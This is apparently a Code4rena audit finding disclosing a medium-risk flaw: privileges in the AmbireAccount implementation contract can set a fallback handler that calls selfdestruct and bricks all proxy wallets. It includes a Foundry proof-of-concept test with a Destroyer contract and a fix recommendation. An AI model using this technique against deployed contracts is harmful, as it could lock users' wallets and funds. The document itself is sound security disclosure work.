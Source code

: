 ## Tags

- bug
- 2 (Med Risk)
- satisfactory
- selected for report
- M-05

# [AmbireAccount implementation can be destroyed by privileges](https://github.com/code-423n4/2023-05-ambire-findings/issues/10) 

# Lines of code

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L58-L65


# Vulnerability details

# AmbireAccount implementation can be destroyed by privileges

The AmbireAccount implementation can be destroyed, resulting in the bricking of all associated wallets.

## Impact

The AmbireAccount contract has a constructor that setups privileges, these are essentially addresses that have control over the wallet.

https://github.com/AmbireTech/ambire-common/blob/5c54f8005e90ad481df8e34e85718f3d2bfa2ace/contracts/AmbireAccount.sol#L58-L65

```solidity
58: 	constructor(address[] memory addrs) {
59: 		uint256 len = addrs.length;
60: 		for (uint256 i = 0; i < len; i++) {
61: 			// NOTE: privileges[] can be set to any arbitrary value, but for this we SSTORE directly through the proxy creator
62: 			privileges[addrs[i]] = bytes32(uint(1));
63: 			emit LogPrivilegeChanged(addrs[i], bytes32(uint(1)));
64: 		}
65: 	}
```

Normally this constructor is not really used, as wallets are deployed using proxies. The proxy constructor is the actual piece of code that setups the privileges storage to grant initial permission to the owner of the wallet.

However these proxies need to rely on a reference implementation of the AmbireAccount contract. A single contract is deployed and its address is then injected into the proxy code.

The main issue is that privileges defined in the reference implementation have control over that instance, and could eventually force a destruction of the contract using a fallback handler with a `selfdestruct` instruction (see PoC for a detailed explanation). This destruction of the implementation would render all wallets non-functional, as the proxies won't have any underlying logic code. Consequently, wallets would become inaccessible, resulting in potential loss of funds.

It is not clear the purpose of this constructor in the AmbireAccount contract. It may be present to facilitate testing. This issue can be triggered by a malicious deployer (or any of the defined privileges) or by simply setting up a wrong privilege accidentally. Nevertheless, its presence imposes a big and unneeded security risk, as the destruction of the reference implementation can render **all** wallets useless and inaccessible.

## Proof of Concept

The following test reproduces the described issue. A deployer account deploys the implementation of the AmbireAccount contract that is later used by the user account to create a proxy (AccountProxy contract) over the implementation. The deployer then forces the destruction of the reference implementation using a fallback handler (Destroyer contract). The user's wallet is now inaccessible as there is no code behind the proxy.

The majority of the test is implemented in the `setUp()` function in order to properly test the destruction of the contract (in Foundry contracts are deleted when the test is finalized).

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/79248a4fdf436eb3044e87cfffc9d8f7).

```solidity
contract Destroyer {
    function destruct() external {
        selfdestruct(payable(address(0)));
    }
}

contract AccountProxy is ERC1967Proxy {
    // Simulate privileges storage
    mapping(address => bytes32) public privileges;

    constructor(address[] memory addrs, address _logic) ERC1967Proxy(_logic, "") {
		uint256 len = addrs.length;
		for (uint256 i = 0; i < len; i++) {
			// NOTE: privileges[] can be set to any arbitrary value, but for this we SSTORE directly through the proxy creator
			privileges[addrs[i]] = bytes32(uint(1));
		}
	}
}

contract AuditDestructTest is Test {
    AmbireAccount implementation;
    AmbireAccount wallet;

    function setUp() public {
        // Master account implementation can be destroyed by any of the configured privileges
        address deployer = makeAddr("deployer");
        address user = makeAddr("user");

        // Lets say deployer creates reference implementation
        address[] memory addrsImpl = new address[](1);
        addrsImpl[0] = deployer;
        implementation = new AmbireAccount(addrsImpl);

        // User deploys wallet
        address[] memory addrsWallet = new address[](1);
        addrsWallet[0] = user;
        wallet = AmbireAccount(payable(
            new AccountProxy(addrsWallet, address(implementation))
        ));

        // Test the wallet is working ok
        assertTrue(wallet.supportsInterface(0x4e2312e0));

        // Now privilege sets fallback
        Destroyer destroyer = new Destroyer();
        AmbireAccount.Transaction[] memory txns = new AmbireAccount.Transaction[](1);
        txns[0].to = address(implementation);
        txns[0].value = 0;
        txns[0].data = abi.encodeWithSelector(
            AmbireAccount.setAddrPrivilege.selector,
            address(0x6969),
            bytes32(uint256(uint160(address(destroyer))))
        );
        vm.prank(deployer);
        implementation.executeBySender(txns);

        // and destroys master implementation
        Destroyer(address(implementation)).destruct();
    }

    function test_AmbireAccount_DestroyImplementation() public {
        // Assert implementation has been destroyed
        assertEq(address(implementation).code.length, 0);

        // Now every wallet (proxy) that points to this master implementation will be bricked
        wallet.supportsInterface(0x4e2312e0);
    }
}
```

## Recommendation

Remove the constructor from the AmbireAccount contract.




## Assessed type

Other